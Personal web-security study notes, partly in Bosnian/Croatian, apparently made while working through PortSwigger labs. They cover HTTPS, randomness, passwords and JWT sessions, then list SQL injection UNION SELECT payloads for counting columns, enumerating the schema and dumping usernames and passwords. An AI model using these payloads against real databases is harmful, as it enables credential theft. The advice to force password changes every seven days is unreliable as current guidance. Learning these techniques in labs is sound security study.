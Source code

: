 
PREDOBROOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOO:
https://portswigger.net/web-security

## HTTPS
Always use HTTPS protocol.  
This way you avoid lots of troubles with man-in-the-middle attack.  


## Predictability
Bilo šta što je predvidivo: username, password, session_id, tokeni ->
je INSECURE !!!!!!!!

Thus -> SecureRandom()


## URLs

Don't send *sensitive data* in URLs:
- username/password
- security token

Why?
- they can be logged in user's history, server logs, proxies etc.


## Passwords

Reset passworda je MUST HAVE:
- ako user zaboravi pwd
- periodično NATJERAT usera da promijeni password
- ako je neko skonto password, za 7 dana neće biti validan -> stonks


Slanje passworda na mail -> NO
Predvidivi generisani passwordi -> NO


## Usernames
Nejedinstveni username -> NO

------------------------------------------------------------------------------------------------
------------------------------------------------------------------------------------------------
## JWTs are bullshit (for sessions)

- Logout? -> NO
- Change roles -> NO (fuck you, this is STILL a valid token.. :) )


------------------------------------------------------------------------------------------------
------------------------------------------------------------------------------------------------
------------------------------------------------------------------------------------------------
HACKING stuff
------------------------------------------------------------------------------------------------------------
# SQL injection

## UNION SELECT napad

### Skontaš broj kolona
```sql
' ORDER+BY+3--
```
ili
```sql
'+UNION+SELECT+NULL,NULL--
```
(kod Oracle MORA 'SELECT .. FROM DUAL')
dok ne potrefiš broj kolona...

### Skontaš koja kolona je string (obično)

```sql
' UNION SELECT NULL,NULL,'a',NULL--
```

dok ne potrefiš koja kolona paše.. :)

### UNION SELECT
```sql
' UNION SELECT username, password FROM users--
```

### Browsing the db schema

'+UNION+SELECT+NULL,table_name+FROM+information_schema.tables--
--> users_lqlezz npr

'+UNION+SELECT+NULL,column_name+FROM+information_schema.columns+WHERE+table_name='users_lqlezz'--
--> username_jyfedi,password_fxqtrq

' UNION SELECT username_jyfedi,password_fxqtrq FROM users_lqlezz--

ORACLE:
all_tables i all_tab_columns


